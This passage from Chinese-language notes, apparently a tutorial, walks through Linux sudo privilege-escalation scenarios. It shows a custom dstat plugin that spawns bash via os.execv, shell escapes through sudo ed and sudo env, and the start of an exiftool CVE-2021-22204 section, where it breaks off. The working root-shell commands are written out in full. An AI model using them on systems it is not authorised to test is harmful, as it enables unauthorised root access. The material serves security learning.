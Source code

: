 -  `**--<plugin-name>**`这个参数，使用外部的插件，**可以通过自定义外部的插件提权。**
- `**--list**`** **展示可利用的 插件

![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685628040348-1617574e-81b5-4439-b742-f9eee2dbef11.png#averageHue=%231c1f2c&clientId=ucada80b3-aeb4-4&from=paste&height=110&id=uf8fad2a2&originHeight=137&originWidth=1018&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=58677&status=done&style=none&taskId=u3ac29ec9-6c2c-49b8-ba8b-33c867ead50&title=&width=814.4)
```bash
dstat --list   # 展示可利用的 插件
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685628428947-42023e54-5537-49b5-8383-237c5ad08a27.png#averageHue=%23252836&clientId=ucada80b3-aeb4-4&from=paste&height=250&id=u34fb5206&originHeight=312&originWidth=927&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=232177&status=done&style=none&taskId=ub6440734-ef0b-4f48-89f0-3519d4ae459&title=&width=741.6)
```bash
find / -name '*dstat*' -type d 2> /dev/null
```
找到了 定义插件的目录 **/usr/share/dstat**
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685628756880-8a2f85cd-98bd-48c4-a280-ec694e55e1d2.png#averageHue=%23262938&clientId=ucada80b3-aeb4-4&from=paste&height=449&id=u43d99263&originHeight=561&originWidth=1401&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=701206&status=done&style=none&taskId=uff6e4680-d456-4684-8d7e-0e14de1073b&title=&width=1120.8) 利用条件：同时还需允许该用户在  **/usr/share/dstat **目录下可写
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685630507142-7f02adb8-0313-4374-ab9c-1a6db8a8b749.png#averageHue=%23242632&clientId=u5826a877-a3c8-4&from=paste&height=90&id=u326bc9d6&originHeight=113&originWidth=723&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=75945&status=done&style=none&taskId=ufef21549-696e-4561-91d0-95092d07f9e&title=&width=578.4)
**'dstat_'** 是前缀，后面是插件名称：使用 `**--插件名**` 加载插件。
自定义一个提权插件，加载提权
```python
import os

# 第一个参数：字符串，表示你想要执行程序的路径
# 第二个参数：不定长列表，列表里只能包含字符串，表示你想要执行程序的system argument参数。
os.execv('/bin/bash',['bash']) 
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685630629056-d7c6c598-f2a4-46c7-bf4c-ed1f96d359d6.png#averageHue=%231c1e2b&clientId=u5826a877-a3c8-4&from=paste&height=112&id=ud98f0f82&originHeight=140&originWidth=459&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=36760&status=done&style=none&taskId=u3367c7e0-f0c4-4938-9fc9-57d0425e44a&title=&width=367.2)
最后** sudo** 执行 **dstat** 并加载自定义插件 **dstat_shell.py**
```bash
sudo dstat --shell
```
提权成功！！！
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685630760093-e77e0c60-b121-418b-9b42-b50d19834908.png#averageHue=%2321232f&clientId=u5826a877-a3c8-4&from=paste&height=236&id=u0945c0dc&originHeight=295&originWidth=603&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=123394&status=done&style=none&taskId=ua32d2356-405a-4bd5-b1bd-f76558ad3b5&title=&width=482.4)
## 情景二十四 - ed
linux 的 一种简易编辑器工具 edit
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685630820200-e3b77144-8ad0-44c4-a670-1255537fdf39.png#averageHue=%23282a36&clientId=u5826a877-a3c8-4&from=paste&height=59&id=u9474aff9&originHeight=74&originWidth=488&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=37193&status=done&style=none&taskId=u0cb22879-14e5-404d-8d76-3ea3345fae5&title=&width=390.4)
```bash
sudo ed  # 进入 文字编辑 界面 ， 按 q 退出

!/bin/bash
# ! 说明指定操作系统自身的命令，而不是ftp命令
```
提权成功！！！
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685631135487-a8f25f37-e31f-4b7c-ba52-42aa316b0f75.png#averageHue=%231e202c&clientId=u5826a877-a3c8-4&from=paste&height=288&id=u16a7aefb&originHeight=360&originWidth=555&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=134985&status=done&style=none&taskId=u84ff7ac9-476f-43b5-8696-4d7fe5d0333&title=&width=444)
## 情景二十五 - env
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685609449723-c4482f9d-f00a-4655-acdd-d5313031df1b.png#averageHue=%235f6065&clientId=ucada80b3-aeb4-4&from=paste&height=67&id=ud7c475b2&originHeight=84&originWidth=538&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=15411&status=done&style=none&taskId=ue8847eef-1a5d-4999-8474-ccc9047367d&title=&width=430.4)
```bash
sudo env /bin/bash   # env 在指定环境下执行 /bin/bash
```
提权成功！！！
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1685609495403-f40b3e44-b130-4232-9a0d-54d18b3576a0.png#averageHue=%235b5d63&clientId=ucada80b3-aeb4-4&from=paste&height=147&id=u375bb0d3&originHeight=184&originWidth=585&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=36730&status=done&style=none&taskId=u7ee3de7b-b133-4417-be41-e3c6e8c784d&title=&width=468)
## 情景二十六 - exiftool - 难点
 exiftool - 查看图片的元数据信息 版本在 **7.44-12.23 **有对应的漏洞
```bash
exiftool -ver # 查看工具版本
```
在可提权的漏洞版本区间内
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22657583/1686124442627-6927469b-c0d4-47bb-a08a-1c3840c5472c.png#averageHue=%231d1f2a&clientId=u11b39549-1d7e-4&from=paste&height=76&id=u652f6552&originHeight=95&originWidth=509&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=38008&status=done&style=none&taskId=u15c271e7-e7af-4aef-8005-1246319dd29&title=&width=407.2)
CVE 2021-22204